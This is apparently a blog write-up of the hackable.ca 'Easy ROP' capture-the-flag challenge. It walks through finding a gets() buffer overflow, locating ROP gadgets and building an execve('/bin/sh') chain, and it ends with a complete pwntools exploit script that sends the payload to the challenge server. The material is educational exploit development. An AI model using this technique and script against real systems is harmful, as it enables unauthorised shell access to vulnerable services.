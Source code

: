 Title: Hackable.ca Easy ROP
Date: 2018-7-30 10:02
Modified: 2018-7-30 10:02
Category: ctf
Tags: ctf, pwnable, binary exploitation, rop
Slug: hackable_ca_easyROP
Authors: F3real
Summary: How to solve hackable.ca Easy ROP

In this post we are going to take a look at one of challenges from [http://hackable.ca/](http://hackable.ca/). It is (not so) Easy ROP challenge. First lets run `file` on binary they provided:

    root@kali:~/ctf/hackable.ca_easyROP# file ropeasy_updated 
    ropeasy_updated: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=61d5d8b74151b4dfa900d5e2d66b9c2e0adcfa85, not stripped

We see it is 32bit non stripped ELF program, since we don’t have source code we can use IDA to get pseudocode (`F5` hotkey while in function).

~~~c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax@1

  v3 = _x86_get_pc_thunk_ax(&argc);
  puts(&aTryRunningBinS[v3 - 134515245]);
  smashMe();
  return 0;
}

int smashMe()
{
  char v1; // [sp+Ch] [bp-Ch]@1

  printf("\nuser input: ");
  fflush(stdout);
  return gets(&v1);
}
~~~

It is really simple executable with obvious overflow in `smashMe` (`gets` function). We are also going to check security features enabled on this binary.

    gdb-peda$ checksec
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : ENABLED
    PIE       : disabled
    RELRO     : Partial

We see that only NX (Non-executable memory) bit is set. Good thing is that, since PIE is disabled, addresses won’t change which makes our job easier. I am using `checksec` command from `gdb-peda` (really helpful extension for `gdb`), but there is also standalone script for it. Let’s try running the binary:

    root@kali:~/ctf/hackable.ca_easyROP# ./ropeasy_updated

    try running /bin/sh

    user input: test

Program asks us for input and immediately quits. First let’s try to find address of `system` and `/bin/sh`.

    gdb-peda$ p system
    No symbol table is loaded.  Use the "file" command.

It seems that `system` is not linked in this binary. This makes ROP harder but we can use `execve` syscall to run `/bin/sh`. One of other things we have to do is find offset of `EIP`. We can create pattern in `gdb-peda`:

    gdb-peda$ pattern create 20
    'AAA%AAsAABAA$AAnAACA'

When we give this pattern (if it is long enough) to program it will crash with `SIGSEGV` (segmentation fault). This pattern is non-repeatable so we can tell `gdb-peda` to look for it in registers after program segfault and determine offsets.

    gdb-peda$ pattern search

![Easy rop pattern search]({static}/images/2018_8_30_easyRop1.png){: .img-fluid .centerimage}

We see that `EIP` offset is at 16 and that we also have `EBX` at 8. One of things to note is that `gdb` can modify stack a bit (because of environment variables) so it is better to run program and then attach `gdb` to it then to run it inside `gdb`.

To get `execve` syscall we need following arguments:

    EAX      0x0b      //identifies execve syscall
    EBX      /bin/sh
    ECX      0
    EDX      0

To find ROP gadgets we need we are going to use [**ropper**](https://github.com/sashs/Ropper). Lets look for `int 0x80; ret;` first since it is required for syscall.

~~~text
root@kali:~/ctf/hackable.ca_easyROP# ropper --file ropeasy_updated --search "int 0x80; ret;"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: int 0x80; ret;

[INFO] File: ropeasy_updated
0x08070470: int 0x80; ret;
~~~

We are going to repeat this procedure to find other gadgets we need as well.

    0x080b94a6: pop eax; ret;
    0x0806feaa: pop edx; ret;  
    0x0806fed1: pop ecx; pop ebx; ret;

Since we couldn’t find simple `pop ecx; ret;` we are using closest one we could find. Procedure to find address for `/bin/sh` is a bit different. All static strings are stored in `.rodata` section (*read-only-data*) in ELF binaries. We can find address using:

    root@kali:~/ctf/hackable.ca_easyROP# objdump -s -j .rodata ./ropeasy_updated  | grep /bin/sh
     80bc660 6e67202f 62696e2f 7368002e 2e2f6373  ng /bin/sh.../cs

We don’t get exact address so we need to add offset (`0x03`). So lets combine all of this together:

    "AAAA"
    "AAAA"  
    "AAAA"
    "AAAA"
    0x080b94a6    # pop eax; ret;
    0x0000000b    # argument for execv
    0x0806feaa    # pop edx; ret;
    0x00000000    # we need 0 in EDX
    0x0806fed1    # pop ecx; pop ebx; ret;
    0x00000000    # we need 0 in ECX
    0x80bc660+0x3 # /bin/sh
    0x08070470    # int 80; ret;

We could have also overwritten `EBX` sooner but, since in gadget for `ECX` we have `pop EBX` again, it is not needed. Now let’s write **pwntools** script implementing this exploit.

~~~python
from pwn import *

context.arch = 'i386'
context.terminal = 'tmux'

r = remote('pwnable.hackable.ca',  9999)
print r.recvuntil('user input: ')

addr_1 = p32(0x80bc660+0x3)   # /bin/sh
addr_2 = p32(0x08070470)      # int 80; ret;
addr_3 = p32(0x080b94a6)      # pop eax; ret;
addr_4 = p32(0x0806feaa)      # pop edx; ret;
addr_5 = p32(0x0806fed1)      # pop ecx; pop ebx; ret; 

payload = "A"*16 + addr_3 + "\x0b" + "\x00"*3 + addr_4 + "\x00"*4 + addr_5 + "\x00"*4 + addr_1 + addr_2
print payload
r.send(payload)
r.interactive()
~~~

And running it, we get the flag :D

![Easy rop flag]({static}/images/2018_8_30_easyRop2.png){: .img-fluid .centerimage}

***

Making ROP chain involves a lot of tinkering and failing so it is really helpful to inspect core files (from segfaults).

    gdb ./ropeasy_updated ./core

After that we can inspect register state at time of crash with `i r` and stack state with `i s`.
